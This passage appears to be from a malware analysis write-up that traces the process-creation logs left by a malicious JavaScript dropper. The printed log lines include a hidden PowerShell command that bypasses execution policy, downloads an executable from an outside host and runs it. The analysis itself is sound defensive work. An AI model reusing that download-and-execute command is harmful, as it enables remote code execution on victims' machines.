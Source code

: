![](/img/1530930206146.png)

#### ProcDot

For an even more detailed graph of what happened, we can export the
ProcMon data in csv form and load it into ProcDot:

![](/img/1530930317287.png)

#### Windows Logs

Finally, let's see what we captured in Windows Logs.

##### Security Logs

In the Security logs, we see 4 4688 Process Creation logs:

![](/img/1530930564441.png)

They are:

1.  `wscript.exe`
    -   command line:
        `wscript 2bcd28a0723854c7ef229084d278af6e648c06de695018c070688f262f40e0a5.js`
    -   parent process: `cmd.exe`
    -   pid: 0x1260
    -   parent pid: 0x1f0
2.  `cmd.exe`
    -   command line:
        `"C:\Windows\System32\cmd.exe" /c powershell.exe -noprofile -windowstyle hidden -executionpolicy bypass (new-object system.net.webclient).downloadfile('http://gostat.dhl-tcp.com/page818.php','%tEmp%oUE18.EXE'); Invoke-WmIMethoD -ClAsS WiN32_PrOcess -NAmE CrEAte -ArgUmentLisT '%temP%oUE18.Exe'`
    -   parent process: `wscript.exe`
    -   pid: 0x1708
    -   parent pid: 0x1260
3.  `conhost.exe`
    -   command line:
        `\??\C:\WINDOWS\system32\conhost.exe 0xffffffff -ForceV1`
    -   parent process: `cmd.exe`
    -   pid: 0x1170
    -   parent pid: 0x1708
4.  `powershell.exe`
    -   command line:
        `powershell.exe -noprofile -windowstyle hidden -executionpolicy bypass (new-object system.net.webclient).downloadfile('http://gostat.dhl-tcp.com/page818.php','C:\Users\REM\AppData\Local\TempoUE18.EXE'); Invoke-WmIMethoD -ClAsS WiN32_PrOcess -NAmE CrEAte -ArgUmentLisT 'C:\Users\REM\AppData\Local\TempoUE18.Exe'`
    -   parent process: `cmd.exe`
    -   pid: 0xac0
    -   parent pid: 0x1708

##### PowerShell Logs
